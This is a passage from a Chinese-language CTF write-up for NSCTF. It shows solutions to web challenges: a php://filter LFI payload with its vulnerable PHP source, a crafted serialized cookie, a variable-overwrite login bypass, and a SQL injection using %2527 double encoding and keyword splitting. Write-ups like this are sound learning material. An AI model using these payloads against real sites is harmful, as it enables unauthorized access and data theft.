 最后被逼的没办法还发了短信，结果发现这是真人（官方和王伟到底什么愁什么怨），最后开脑洞，想到可能还是check的地方有问题，输入身份证Get Flag!

ps:别拦着我，我要报警了

## 0x08 LFI Point:200(Done) ##

没什么可说的，文件上传
php://filter/read=convert.base64-encode/resource=index.php
```
<?php
error_reporting(0);

if(isset($_POST['submit'])){

  if(isset($_POST['file'])){

          $file = $_POST['file'];

          $method = explode("=", $file);

          if( ($method[0] == "php://filter/read") && ($method[2] == "index.php") ){
           include($file);
        exit();
    }else{
            exit('error file or error method');
    }
  }
}
```

## 0x09 change password Point:300 (Done) ##

尝试了下，感觉应该是有源码，于是找到.index.php.swp源码，这里源码忘记保存下来了，审计代码构造payload,这里有个坑，也不知道主办方是不是脑子有坑。。。id要等于1，惯性思维是cookie里面发现的原密码150923和id=3

**payload:userInfo=a:2:{s:2:"id";i:1;s:4:"pass";s:8:"20150923";}&oldPass=20150923&newPass=321321**

Get Flag!

## 0x0A Variable cover Point:250 (Done) ##
题目开始完全没有思路，注入完全过不去，官方给出hit:不按常理的备份文件。
然后各种开脑洞，无意间发现Index.php.，源码得到开始构造payload。

**payload:username='qwe&password=||1#&Submit=%E6%8F%90%E4%BA%A4&_CONFIG=123321**

这里username=' => username=\' => username[0]=\

所以Get Flag!

## 0x0B File Upload Point:400 (Done) ##

## 0x0C SQLI Point:350 (Done) ##
稍微翻了翻源码，发现了隐藏参数filtername，测试下发现：
filtername是过滤器，可以通过设置filtername绕过对username的部分过滤
username=teadminst&filtername=admin    会先过滤再查询

剩下就是对单引号的过滤，这里用了一个黑科技%2527,这里%25被解析成%，然后单引号成功，于是构造payload；
```
username=admin%2527+uniewqoN+Aewqll+sEleewqct+(group_concat(flag)),2+from+flag#&filtername=ewq
```

Get Flag!




总体说来这次nsctf收获很多，知道很多以前不知道的黑科技，经过一个假期的学期，对原来很多不懂得东西有了新的认识，还有z神和呵呵抬我一手，进了前50，很开心（0。0）

